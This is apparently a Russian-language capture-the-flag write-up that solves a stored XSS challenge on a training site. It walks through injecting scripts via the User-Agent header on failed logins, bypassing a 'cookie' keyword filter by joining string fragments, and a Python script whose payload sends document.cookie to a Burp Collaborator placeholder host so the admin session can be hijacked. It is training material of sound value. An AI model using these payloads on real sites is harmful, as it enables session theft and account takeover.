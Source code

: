 # Forbidden_Code_HW

При входе на сайт видим форму для входа/регистрации

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312215659.png?raw=true)

При изучении страницы HTML находим подсказку о POST-запросе

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220201.png?raw=true)

В личном кабинете можно найти логи неудачных попыток входа. После неудачной попытки входа получаем такую картину

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220022.png?raw=true)

Регистрируем пользователя с именем `<script>alert(1)</script>` для проверки XSS payload. Получаем:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220615.png?raw=true)

>XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.

## Подготовка атаки
Изменить логин admin на payload нельзя. На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent можем. Напишем скрипт на python для этого:

```python
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
```
Проверка скрипта прошла успешно:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312231514.png?raw=true)

## Проработка атаки

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И встречаем проблему
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002008.png?raw=true)

На сайте стоит фильтр на слово ```cookie```

##Обход фильтрации

Не забываем, что у нас есть неограниченный доступ к **javascript** на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.
Необязательно транспортировать слово cookie именно как слово, можно его собрать из массива!
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Получаем результат
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002825.png?raw=true)

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313003642.png?raw=true)

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.

Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Отправляем, ждем, пуллим.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004232.png?raw=true)

Подставим значение PHPSESSID в наш браузер. 
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004351.png?raw=true)

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004408.png?raw=true)

Получаем флаг: ***CODEBY{m1ss_th3_cl13nt_att4cks?}***
